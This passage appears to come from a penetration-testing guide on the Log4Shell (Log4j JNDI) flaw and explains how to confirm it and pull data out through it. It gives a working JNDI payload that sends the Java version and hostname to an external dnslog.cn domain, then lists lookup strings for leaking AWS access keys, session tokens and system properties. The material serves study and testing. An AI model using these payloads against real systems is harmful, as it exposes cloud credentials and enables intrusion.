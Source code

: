 - To **verify** the vulnerability
- To **exfiltrate information** abusing the vulnerability

For example you could request something like:\
or like `${`**`jndi:ldap://jv-${sys:java.version}-hn-${hostName}.ei4frk.dnslog.cn/a}`** and if a **DNS request is received with the value of the env variable**, you know the application is vulnerable.

Other information you could try to **leak**:

```
${env:AWS_ACCESS_KEY_ID}
${env:AWS_CONFIG_FILE}
${env:AWS_PROFILE}
${env:AWS_SECRET_ACCESS_KEY}
${env:AWS_SESSION_TOKEN}
${env:AWS_SHARED_CREDENTIALS_FILE}
${env:AWS_WEB_IDENTITY_TOKEN_FILE}
${env:HOSTNAME}
${env:JAVA_VERSION}
${env:PATH}
${env:USER}
${hostName}
${java.vendor}
${java:os}
${java:version}
${log4j:configParentLocation}
${sys:PROJECT_HOME}
${sys:file.separator}
${sys:java.class.path}
${sys:java.class.path}
${sys:java.class.version}
${sys:java.compiler}
${sys:java.ext.dirs}
${sys:java.home}
${sys:java.io.tmpdir}
${sys:java.library.path}
${sys:java.specification.name}
${sys:java.specification.vendor}
${sys:java.specification.version}
${sys:java.vendor.url}
${sys:java.vendor}
${sys:java.version}
${sys:java.vm.name}
${sys:java.vm.specification.name}
${sys:java.vm.specification.vendor}
${sys:java.vm.specification.version}
${sys:java.vm.vendor}
${sys:java.vm.version}
${sys:line.separator}
${sys:os.arch}
${sys:os.name}
${sys:os.version}
${sys:path.separator}
${sys:user.dir}
${sys:user.home}
${sys:user.name}

Any other env variable name that could store sensitive information
```
